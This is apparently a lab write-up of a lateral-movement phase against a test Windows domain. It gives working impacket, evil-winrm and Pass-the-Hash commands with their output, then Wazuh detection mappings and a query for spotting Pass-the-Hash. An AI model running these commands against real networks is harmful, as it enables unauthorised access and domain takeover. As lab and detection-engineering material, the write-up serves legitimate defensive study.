

# Phase 5: Lateral Movement

MITRE ATT&CK: T1021.006 T1550.002

## Movement Map



## SMB is Filtered: Constraint Encountered

Direct SMB-based lateral movement tools fail against the agents:

```bash
impacket-psexec 'lab.local/john.doe:Winter2024!@192.168.90.123'
# Connection error on port 445: timed out

impacket-wmiexec 'lab.local/john.doe:Winter2024!@192.168.90.123'
# Connection error on port 445: timed out
```

WinRM on port 5985 is open and becomes the only viable pivot path.

## Prerequisite: Make john.doe Local Admin on Agents

Executed from DC via PowerShell:

```powershell
Invoke-Command -ComputerName win-agent-01 -ScriptBlock {
  net localgroup administrators "lab\john.doe" /add
  net localgroup "Remote Management Users" "lab\john.doe" /add
  Restart-Service WinRM
}

Invoke-Command -ComputerName win-agent-02 -ScriptBlock {
  net localgroup administrators "lab\john.doe" /add
  net localgroup "Remote Management Users" "lab\john.doe" /add
  Restart-Service WinRM
}
```

## Lateral Move to win-agent-02

```bash
evil-winrm -i 192.168.90.123 -u john.doe -p 'Winter2024!'
```

Shell confirmation:

```
*Evil-WinRM* PS C:\Users\john.doe\Documents> hostname
win-agent-02

*Evil-WinRM* PS C:\Users\john.doe\Documents> whoami
lab\john.doe

*Evil-WinRM* PS C:\Users\john.doe\Documents> net localgroup administrators
Members:
  Administrator
  LAB\Domain Admins
  LAB\john.doe
```

john.doe is confirmed as local admin on win-agent-02. This enables the LSASS dump in Phase 4.3 and opens the path to the DC via Pass the Hash.

## Pass the Hash to DC

Using the Administrator NTLM hash recovered from the LSASS dump:

```bash
nxc smb 192.168.90.121 \
  -u administrator \
  -H bf27edd1…[REDACTED-NTLM]
```

Output:

```
SMB  192.168.90.121  445  WINDOWS-AD-DC
     [+] lab.local\administrator:bf27edd1…[REDACTED-NTLM] (Pwn3d!)
```

## Wazuh Detection

| Technique              | Event ID                     | Rule  | Status              |
|------------------------|------------------------------|-------|---------------------|
| WinRM Lateral Movement | 4624 Type 3                  | 60106 | DETECTED at level 5 |
| Pass the Hash          | 4624 Type 3 NTLM keyLength 0 | 92758 | Needs custom rule   |

Query to identify Pass the Hash pattern:

```
data.win.system.eventID:4624 AND
data.win.eventdata.logonType:3 AND
data.win.eventdata.authenticationPackageName:NTLM AND
data.win.eventdata.keyLength:0
```
